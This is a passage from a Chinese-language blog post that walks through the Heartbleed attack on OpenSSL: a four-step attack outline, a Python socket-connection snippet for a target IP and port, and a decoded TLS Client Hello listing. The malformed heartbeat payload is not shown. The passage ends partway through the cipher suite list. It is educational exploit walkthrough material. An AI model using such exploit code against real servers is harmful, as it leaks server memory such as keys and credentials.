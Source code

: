 ![结构](https://raw.githubusercontent.com/chyun/Blog/gh-pages/images/20140611_TLS.jpg)

##3.攻击流程

漏洞的攻击思路:

1. 建立socket连接
2. 发送TLS/SSL Client Hello请求
3. 发送畸形heartbleed数据
4. 检测漏洞存在

###建立socket连接

```

    def ssltest(target, port):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))

```

其中target为目标IP地址，port为目标端口，默认情况下，HTTPS使用443端口。

###发送握手请求

tcp socket 建立后, 发送SSL/TLS Client Hello请求,

```
s.send(h2bin(hello))

```

Client Hello请求内容如下所示:

```

    -------------------------[Client Hello]--------------------------
    Secure Sockets Layer
    TLSv1.1 Record Layer: Handshake Protocol: Client Hello
        Content Type: Handshake (22)
        Version: TLS 1.1 (0x0302)
        Length: 220
        Handshake Protocol: Client Hello
            Handshake Type: Client Hello (1)
            Length: 216
            Version: TLS 1.1 (0x0302)
            Random
            Session ID Length: 0
            Cipher Suites Length: 102
            Cipher Suites (51 suites)
                Cipher Suite: TLS_ECDHE_RSA_WITH_AES_256_CBC_SHA (0xc014)
                Cipher Suite: TLS_ECDHE_ECDSA_WITH_AES_256_CBC_SHA (0xc00a)
                Cipher Suite: TLS_SRP_SHA_DSS_WITH_AES_256_CBC_SHA (0xc022)
                Cipher Suite: TLS_SRP_SHA_RSA_WITH_AES_256_CBC_SHA (0xc021)
                Cipher Suite: TLS_DHE_RSA_WITH_AES_256_CBC_SHA (0x0039)
```

[id]: https://github.com/chyun/Blog/blob/gh-pages/images/20140611_TLS.jpg